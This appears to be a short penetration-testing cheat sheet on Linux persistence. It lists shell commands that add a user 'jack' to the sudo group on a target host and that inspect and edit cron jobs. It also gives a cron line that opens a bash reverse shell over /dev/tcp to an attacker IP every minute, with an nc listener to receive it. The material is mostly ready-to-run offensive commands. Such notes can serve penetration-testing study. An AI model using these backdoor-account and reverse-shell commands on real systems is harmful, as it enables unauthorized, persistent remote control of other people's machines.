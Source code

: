 ### Persistence
#### User Accounts
```
useradd jack
```
- Adds the user jack to the target host
```
passwd jack
```
- Allows you to set the desired password for the newly created user
```
usermod -a -G sudo jack
```
- Adds the user jack to the sudo group on the box 

#### Cron Jobs
```
cat /etc/crontab
```
- Allows you to see the system wide cron jobs
```
crontab -e
```
- Allows you to edit the file for your users cron jobs
```
crontab -l
```
- Prints the cron jobs set for your user
#### Cron Reverse Shell
```
* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/172.16.6.1/1234 0>&1
```
- Creates a reverse shell that call back to your attack box ip every minute
```
nc -nlvp 1234
```
-Create the listener on your attack box to cat the incoming shell
